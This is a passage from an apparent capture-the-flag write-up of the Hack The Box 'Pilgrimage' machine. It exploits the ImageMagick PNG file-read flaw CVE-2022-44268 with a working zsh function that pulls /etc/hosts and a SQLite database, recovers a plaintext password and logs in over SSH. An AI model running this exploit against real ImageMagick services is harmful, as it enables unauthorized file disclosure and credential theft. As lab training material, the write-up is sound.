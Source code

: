 We eventually came across a relevant information disclosure bug tracked as [CVE-2022-44268](https://www.cvedetails.com/cve/CVE-2022-44268/).

> ImageMagick 7.1.0-49 is vulnerable to Information Disclosure. When it parses a PNG image (e.g., for resize), the resulting image could have embedded the content of an arbitrary. file (if the magick binary has permissions to read it).

There was a detailed proof-of-concept (PoC) explaining the steps to exploit this vulnerability [on GitHub](https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC). We used this information to create a shell function that automated exploitation in this instance, then we fetched the SQLite database referenced in the PHP source.

~~~zsh
# function to automate exploitation of CVE-2022-44268 (in this case)
pilgrimage_file_disclosure() {
  
  # Create blank template PNG
  [ ! -f ./blank.png ] && convert xc:none ./blank.png

  # Add desired file name to profile field
  pngcrush -text a "profile" "$1" ./blank.png ./x.png &> /dev/null

  # Collect the parsed file
  exfil=$(curl http://pilgrimage.htb/ -F 'toConvert=@x.png' -so /dev/null -w '%{redirect_url}' |
    grep -Eo 'http://pilgrimage\.htb/shrunk/[0-9a-f]+\.png')
  curl $exfil -so ./exfil.png

  # Extract data from profile field
  identify -verbose ./exfil.png | grep -E -A1 '^[0-9a-f]{72}$' | xxd -r -p
}

pilgrimage_file_disclosure "/etc/hosts" # Test helper function
pilgrimage_file_disclosure "/var/db/pilgrimage" > ./pilgrimage.db # Recover database
~~~
{:file="bryan@redteam ➤ zsh" .nolineno}

Within the SQLite database, the _users_ table contained a single row with the username **`emily`** and password **`abigchonkyboi123`**. We used these credentials to login to the machine via SSH.

~~~zsh
# Dump "users" table
sqlite3 -markdown ./pilgrimage.db << EOF
SELECT * FROM users;
EOF

# Login with credentials from the database
ssh "emily@$rhost"
~~~
{:file="bryan@redteam ➤ zsh" .nolineno}


## Privilege Escalation

When printing the process tree, we noticed an unusual bash script running as root at `/usr/sbin/malwarescan.sh`{:.filepath}. This script was reviewed in search of a path forward.
